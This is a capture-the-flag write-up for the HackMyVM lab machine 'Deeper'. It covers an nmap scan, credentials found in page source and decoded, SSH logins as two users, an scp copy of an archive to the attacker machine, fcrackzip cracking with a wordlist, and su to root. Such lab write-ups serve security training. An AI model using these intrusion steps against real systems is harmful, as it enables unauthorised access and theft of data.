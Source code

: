 ```yaml
---
categories: [HackMyVM]
tags: [PrivEsc, enum, fcrackzip, scp]
img_path: /Vulnhub-Files/img/
image:
  path: Deeper/Untitled.png
  alt: HackMyVM Machine ⚔️
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#scp</kbd>&nbsp;&nbsp;<kbd>#fcrackzip</kbd>&nbsp;&nbsp;<kbd>#enum</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Deeper/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.82   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:08 IST
Nmap scan report for 10.0.2.82
Host is up (0.00083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 37:d1:6f:b5:a4:96:e8:78:18:c7:77:d0:3e:20:4e:55 (ECDSA)
|_  256 cf:5d:90:f3:37:3f:a4:e2:ba:d5:d7:25:c6:4a:a0:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Deeper
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:58:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

While checking port 80 →

![Untitled](Deeper/Untitled%202.png)

I checked the source code and got the `PATH` →

![Untitled](Deeper/Untitled%203.png)

After going in this path I got the credentials →

![Untitled](Deeper/Untitled%204.png)

and Password through scrolling further more →

![Untitled](Deeper/Untitled%205.png)

Now I decoded these encodings/hashes and got the results for SSH Login →

I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for cracking of these hashes →

![Untitled](Deeper/Untitled%206.png)

After cracking password I logged in as user Alice .

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh alice@10.0.2.82                  
The authenticity of host '10.0.2.82 (10.0.2.82)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.82' (ED25519) to the list of known hosts.
alice@10.0.2.82 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ ls -al
total 32
drwxr--r-- 3 alice alice 4096 Aug 26 00:14 .
drwxr-xr-x 4 root  root  4096 Aug 25 20:07 ..
lrwxrwxrwx 1 alice alice    9 Aug 25 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25 17:58 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25 17:58 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25 20:43 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26 00:14 .local
-rw-r--r-- 1 alice alice  807 Aug 25 17:58 .profile
-rw-r--r-- 1 alice alice   33 Aug 26 00:14 user.txt
alice@deeper:~$
```
{: .nolineno}

Now I got the encoded password for bob user from `.bob.txt` file .

I Logged in as bob user →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh bob@10.0.2.84      
The authenticity of host '10.0.2.84 (10.0.2.84)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.84' (ED25519) to the list of known hosts.
bob@10.0.2.84 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:05:57 2023 from 192.168.100.103
bob@deeper:~$ ls -al
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26 00:22 .
drwxr-xr-x 4 root root 4096 Aug 25 20:07 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25 20:44 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25 20:17 .local
-rw-r--r-- 1 bob  bob   807 Aug 25 20:09 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26 00:21 root.zip
bob@deeper:~$ file root.zip 
root.zip: Zip archive data, at least v1.0 to extract, compression method=store
bob@deeper:~$ unzip 
-bash: unzip: command not found
bob@deeper:~$
```
{: .nolineno}

I have to transfer this `root.zip` file to the attacker machine so for that I used the command `scp` that id used to transfer files.

```bash
bob@deeper:~$ scp root.zip kali@10.0.2.77:~/Downloads/HackMyVM/Deeper/root.zip
kali@10.0.2.77's password: 
root.zip                      100%  215    82.9KB/s   00:00    
bob@deeper:~$
```
{: .nolineno}

 

Now this file is password protected to I used another Tool called as `fcrackzip` to crack this zip file password →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob
```
{: .nolineno}

Now I extracted the password of root user from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```
{: .nolineno}

Now I am root !!

```bash
bob@deeper:~$ su root
Password: 
root@deeper:/home/bob# cd ~
root@deeper:~# ls -al
total 32
drwx------  4 root root 4096 Aug 26 00:48 .
drwxr-xr-x 18 root root 4096 Aug 25 17:55 ..
lrwxrwxrwx  1 root root    9 Aug 25 18:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25 23:57 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25 19:53 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26 00:48 root.txt
drwx------  2 root root 4096 Aug 25 17:52 .ssh
root@deeper:~# whoami
root
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@deeper:~# hostname
deeper
root@deeper:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:33:4f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.84/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 440sec preferred_lft 440sec
    inet6 fe80::a00:27ff:fe33:4f51/64 scope link 
       valid_lft forever preferred_lft forever
root@deeper:~# cat root.txt
FLAG----FLAG----FLAG----FLAG
root@deeper:~#
```
{: .nolineno}



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }